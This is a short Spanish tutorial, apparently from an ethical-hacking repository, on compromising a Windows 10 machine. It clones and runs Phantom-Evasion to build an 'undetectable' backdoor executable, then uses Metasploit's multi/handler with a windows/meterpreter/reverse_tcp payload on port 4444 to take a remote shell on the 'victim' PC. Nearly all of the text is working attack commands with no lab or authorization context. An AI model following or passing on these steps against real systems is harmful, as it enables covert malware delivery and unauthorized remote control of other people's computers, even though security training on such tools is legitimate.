 Metasploit Framework es la herramienta más utilizada por los hackers en todo el mundo. Permite a los 
hackers informáticos configurar oyentes que crean un entorno propicio (denominado Meterpreter) para manipular máquinas comprometidas. 

En este artículo, veremos cómo se puede usar este marco dentro de Kali Linux para atacar una máquina con Windows 10. Lo haremos a través de un archivo ejecutable malicioso.
## Creando un archivo .exe malicioso

Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```


<p align="center">
<img src="./Img/phantom.png">
</p>

Seleccionaremos la opción 1, ahora el tipo de modulo opción 2, luego pulsaremos ENTER y en LHOST pondremos nuestra IP y LPORT el puerto 4444 y si nos pregunta yes o no ingresaremos todo yes.

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en la PC victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar a la PC víctima. 

![Informatica](Ciberseguridad/Hacking%20Ético%20y%20Pentesting/Prácticas%20de%20hacking%20ético%20para%20TI%20y%20OT/Img/sesion.png)

Ahora para acceder a la terminal ingresaremos el siguiente comando **shell** y listo esteremos dentro de la terminal.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion